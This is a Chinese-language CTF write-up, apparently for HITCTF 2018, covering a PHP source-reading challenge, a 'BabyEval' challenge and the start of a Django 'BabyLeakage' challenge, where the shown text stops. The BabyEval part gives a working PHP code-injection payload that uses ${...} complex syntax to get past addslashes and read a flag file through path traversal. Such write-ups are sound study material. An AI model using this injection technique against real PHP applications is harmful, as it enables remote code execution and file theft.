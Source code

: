 ?>

解码得到

$flag=$_GET['asdfgjxzkallgj8852'];if($flag=='H1TctF2018EzCTF'){die($flag);}die('emmmm');

于是请求

http://198.13.58.35:8899/index.php?asdfgjxzkallgj8852=H1TctF2018EzCTF

得到flag：HITCTF{Php_Is_ez_to_Read}

02

BabyEval

发现源码



那么如何执行命令呢？

实现的方法是传入参数：str={{phpinfo()}}

这里如果直接上phpinfo()，由于有addslashes的作用会出现\"的情况使得命令无法执行

${phpinfo()}告诉我们最里面这个是变量,名为phpinfo(),接下来的一层花括号将其解析为字符串"phpinfo()"

另外,{}有时候也可以当[]使用,文档中有说明："Note: string 也可用花括号访问，比如 str42",这里str{42}==$str[42]

所以我的payload

http://120.24.215.80:10013/index.php?str=${var_dump(cat%20../../../162920976d9c04ac69e2f4392a8cffbf_flag.txt)}

即可拿到

flag:string(39) "flag{162920976d9c04ac69e2f4392a8cffbf} "

03

BabyLeakage

随便点一点，发现是Django写的

![](img/b88000911d7ecc2b6a59ecf741b697a1.png)
